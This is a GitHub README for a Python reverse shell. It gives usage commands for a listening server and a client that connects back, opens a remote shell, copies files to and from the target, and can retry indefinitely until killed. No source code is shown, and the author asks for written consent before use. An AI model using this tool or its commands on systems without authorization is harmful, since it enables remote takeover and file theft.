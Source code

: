 # Reverse Shell
[This is a reverse shell script written in python.](https://github.com/DBC201/Reverse-Shell)

## Usage
### Server 
```python3 server.py```
#### arguments:
- ```-p "port"``` or ```--port "port"```
    - By default the server binds to port 41369.
    - To change to any other number use -p ... or --port ...
    - For example: if you want to run the server at port 22222
    - ```python3 server.py -p 22222``` or ```python3 server.py --port 22222```

#### commands:
- To list all current connections type list

- To connect to a machine type their numeric id

- To receive files type ```receive "file"``` while in the client's console to receive a file(must be on the same dir)
    The files will be copied into a folder called received_files at the directory server.py runs at.

- To send files type ```send "file"```. File to be sent must be in a directory called send that's in the same
directory as server.py. It must be run at the client's console and the file will be copied into the directory
the client shell is in.
    
### Client
```python3 client.py "ip" "port"```
#### arguments:
- ip: the ip of the server(this is required)
- port: the port the server is bound to (this is also required)
- ```-v```, ```--verbose```: a verbose output of what the server is running in the local shell
- ```-l```, ```--loop```: the client program will never halt unless an outside kill signal is sent.
it will attempt to connect indefinitely

This comes with neither warranty nor working guarantee whatsoever. If you do, use at your own risk.
I do not accept any responsibility of any sorts. Don't use this on systems that you
have no written consent to do so.
